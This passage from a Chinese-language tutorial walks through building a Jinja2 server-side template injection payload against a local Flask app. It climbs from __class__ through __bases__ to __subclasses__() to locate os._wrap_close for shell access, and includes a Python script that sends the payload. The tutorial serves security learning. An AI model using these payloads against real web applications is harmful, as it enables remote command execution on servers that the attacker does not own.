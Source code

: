 构造payload

随便找一个内置类对象用`__class__`拿到他所对应的类。

用`__bases__`拿到基类`（<class 'object'>）`

![SSTI回显](./Flask&jinja2&SSTI模版注入/SSTI回显.png)

用`__subclasses__()`拿到子类列表

在子类列表中直接寻找可以利用的类getshell（需要找到可以进行命令执行的子类即os模块）

![找到OS模块](./Flask&jinja2&SSTI模版注入/找到OS模块.png)

查找os在返回页面里的位置

```python
import requests

html = requests.get("http://127.0.0.1:5000/?name={{％22％22.__class__.__bases__[0].__subclasses__()}}").content.decode("UTF-8") # 应该是英文的%
result = html.replace("/n", "")
result_split = result.split(",")
print(result_split.index(" <class 'os._wrap_close'>")) # 147
```
